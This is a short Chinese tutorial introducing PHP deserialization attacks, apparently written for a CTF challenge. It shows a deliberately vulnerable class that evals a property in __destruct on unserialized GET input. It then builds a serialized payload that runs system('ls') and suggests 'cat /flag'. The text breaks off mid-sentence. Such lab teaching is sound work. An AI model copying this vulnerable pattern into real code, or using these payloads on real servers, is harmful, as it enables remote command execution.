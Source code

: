 php反序列化入门

```php
<?php
class CHIVE{
    public $hello = '';
    public function __destruct(){
        eval($this->hello);
    }
}
if(isset($_GET['chive'])){
    unserialize( $_GET['chive']);
}else{
    highlight_file(__FILE__);
}
?>
```

我们get传入的chive参数会被反序列化, 反序列化可以把数据转换为实体对象

__destruct()函数在类对象被销毁的时候调用, 也就是会执行对象的hello变量

想要反序列化, 我们首先需要序列化一个对象

```php
class CHIVE{
    public $hello = '';
//    public function __destruct(){
//        eval($this->hello);
//    } // 注释掉是因为序列化对象的过程在最后也会调用销毁, 执行命令, windows cmd执行ls会报错
}
$a = new CHIVE(); // 创建对象实例
$a->hello = "system('ls');"; // 给对象的变量赋值
echo serialize($a); // 打印序列话对象

// 结果
O:5:"CHIVE":1:{s:5:"hello";s:13:"system('ls');";}
```

每串字符的具体意思不必多说, 自行了解

之后我们把这个序列化的字符串发送过去, 回显成功

![image-20231009155151144](https://cdn.jsdelivr.net/gh/Utahamo/momopic/image2023-9/202310091551172.png)

之后把命令改成cat /flag, 就可以执行命令了

另外有很多种修改对象的方法, 看个人喜好, 比如

```php
class CHIVE{
    public $hello = "system('dir');";
}
$a = new CHIVE();
```

或者
